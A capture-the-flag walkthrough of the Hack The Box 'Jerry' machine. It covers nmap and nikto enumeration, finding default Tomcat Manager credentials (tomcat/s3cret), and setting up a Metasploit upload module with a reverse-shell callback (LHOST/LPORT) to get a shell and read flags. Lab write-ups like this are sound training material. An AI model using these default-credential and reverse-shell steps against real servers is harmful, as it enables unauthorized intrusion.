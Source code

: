 ## **Hack The Box - Jerry**

**Creator:** [mrh4sh](https://app.hackthebox.com/users/2570) 

**Difficulty:** Easy

**Link:* [Jerry](https://app.hackthebox.com/machines/144)

---


<ins> **Introduction** </ins>

![Jerry](/docs/assets/images/HTB/jerry/Jerry.png)

Jerry is fourth challenge and second vulnerable box in the Beginner Track on Hack The Box. The challenge involves using metasploit to execute an exploit that takes advantage of the fact that the Windows installer for *Apache Tomcat* used default login credentials in earlier versions.

[CVE-2009-3548](https://nvd.nist.gov/vuln/detail/CVE-2009-3548)

[Exploit-DB-31433](https://www.exploit-db.com/exploits/31433)

---


<ins> **Enumeration** </ins>


My first step with any vulnerable machine is to enumerate for service versions using nmap. 

`Nmap –sV –sC –O <target_IP> >> nmap.txt && cat nmap.txt `

This command tells *nmap* to scan the target IP for service versions and to test any default scripts it may be vulnerable to, along with attempting to identify the OS. It then outputs the results into a file called *nmap.txt* and then displays the contents of the file on screen using *cat*.

![nmap](/docs/assets/images/HTB/jerry/jerry01.png)

> PORT     STATE SERVICE VERSION 
>
> 8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1 
>
> |_http-favicon: Apache Tomcat 
>
> |_http-title: Apache Tomcat/7.0.88 
>
> |_http-server-header: Apache-Coyote/1.1 
> 
> |_http-open-proxy: Proxy might be redirecting requests 
>
> Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port 
>
> Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)

The machine is hosting an *Apache Tomcat/Coyote JSP engine 1.1 webserver* on *port 8080*. The OS scan couldn't say for sure but the machine is likely running on Windows.

---


<ins> **What Didn't Work** </ins>

I had a good lesson here in not limitting myself to the first results of my enumeration, or at the very least my first takeaway from the results.

I used *searchsploit* to look for the version of *apache tomcat* I thought the machine was using based on the *nmap* scan results. This yielded 2 results, one of which was a python script. Since I know a little bit of python I decided to start here.

![searchsploit](/docs/assets/images/HTB/jerry/jerry02.png)

Using `locate` to search for the file path listed on *searchsploit* I was able to easily find this script already stored on my system..

![locate](/docs/assets/images/HTB/jerry/jerry03.png)

Most python scripts utilize the `-h` or `--help` switch to display a menu that usually provides syntax for it's usage. 

![Script help](/docs/assets/images/HTB/jerry/jerry04.png)

The script is fairly simple to use it just requires the `-u` switch and *target IP*. Unfortunately this Webserver isn't actually vulnerable to this exploit.

![Script nope](/docs/assets/images/HTB/jerry/jerry05.png)

My guess is the machine isn't actually running on version 7.0.88 of *apache tomcat*.

---


<ins> **More Enumeration** </ins>

If at first you don't succeed enumerate some more.

One tool I like to use when enumerating a webserver is *nikto*

Taken from it's [repository](https://github.com/sullo/nikto/wiki/Overview-&-Description)

> Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated. 

*nikto* comes preinstalled on kali but a direct link to the [repository](https://github.com/sullo/nikto) is always handy.

The usage is pretty simple `nikto -h <target_ip>` does the trick. The -h switch tells nikto that the next line in the arguement will be the ip address to scan.

![nikto](/docs/assets/images/HTB/jerry/jerry06.png)

> + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS  
>
> + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server. 
>
> + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server. 
>
> Default account found for 'Tomcat Manager Application' at /manager/html (ID 'tomcat', PW 's3cret'). Apache Tomcat. 
>
> + /host-manager/html: Default Tomcat Manager / Host Manager interface found 
>
> + /manager/html: Tomcat Manager / Host Manager interface found (pass protected) 
>
> + /manager/status: Tomcat Server Status interface found (pass protected) 

Some key takeaways from this scan. 

The webserver accepts all basic forms of http requests and clients are likely able to save and remove files from the webserver. In addition to that it runs something called *Tomcat Manger Application* with default credentials listed as *user ID: tomcat* and *password: s3cret* 

earlier I told *searchsploit* to list vulnerablities related to *apache tomcat 7.0.88* which would have missed any results related to *tomcat manager* which there were.

![searchsploit2](/docs/assets/images/HTB/jerry/jerry07.png)

There are 3 exploits related to tomcat manager, one of which is related to uploading which thanks to *nikto* I know I'm able to do.

---


<ins> *Metasploit* </ins> 

In the `msfconsole` I enter `search tomcat manager` to up a list of exploits related to it, there are several but the one I found on *searchsploit* that i'm looking for match *2* on my console so I enter `use 2`

![msfconsole](/docs/assets/images/HTB/jerry/jerry08.png)

Once the module loads up I enter `show options` to see what configurations the exploit needs to run and then set the appropriate ones.

![msfconsole options](/docs/assets/images/HTB/jerry/jerry09.png)

```
set HttpPassword s3cret

set HttpUsername tomcat

set RHOST 10.10.10.95

set RPORT 8080

set LHOST 10.10.14.2

set LPORT 4444
```

After changing configurations I always `show options` again just to verify everything is how I want it.

![options2](/docs/assets/images/HTB/jerry/jerry10.png)

I then set up a listner to catch the shell the payload generated but that wasn't necessary and actually caused an error the first time I ran the exploit.

![exploit](/docs/assets/images/HTB/jerry/jerry11.png)

Enter *shell* in the *meterpreter* grants access to the *command line* From there it was as simple as using various windows commands to navigate through the file system and find the flags. Even though *nmap* told me it was a Windows server earlier I still caught myself using Linux commands several times out of habbit.

![navigate1](/docs/assets/images/HTB/jerry/jerry12.png)

![navigate2](/docs/assets/images/HTB/jerry/jerry13.png)

![navigate3](/docs/assets/images/HTB/jerry/jerry14.png)

The flags are found on the *adminstrator* users *desktop* in a directory called *flags* that contains a single file *"2 for the price of 1.txt"*. Since this is a windows machine the *type* command is what is used to read the file.

![flags](/docs/assets/images/HTB/jerry/jerry15.png)

All that's left to do is submit them on Hack The Box.

![pwned](/docs/assets/images/HTB/jerry/jerry16.png)

---


<ins> **Final Thoughts** </ins>

Another machine in the beginner track defeated with *metasploit*. I was hoping that the *python* script for the first exploit would work out so I didn't have to use *metasploit* again but here we are.  There is probably more than one way to break into this machine as *tomcat manager* had a *XSS* exploit associated with it as well as several other exploits on *metasploit* so perhaps it will be worth revisiting someday. 





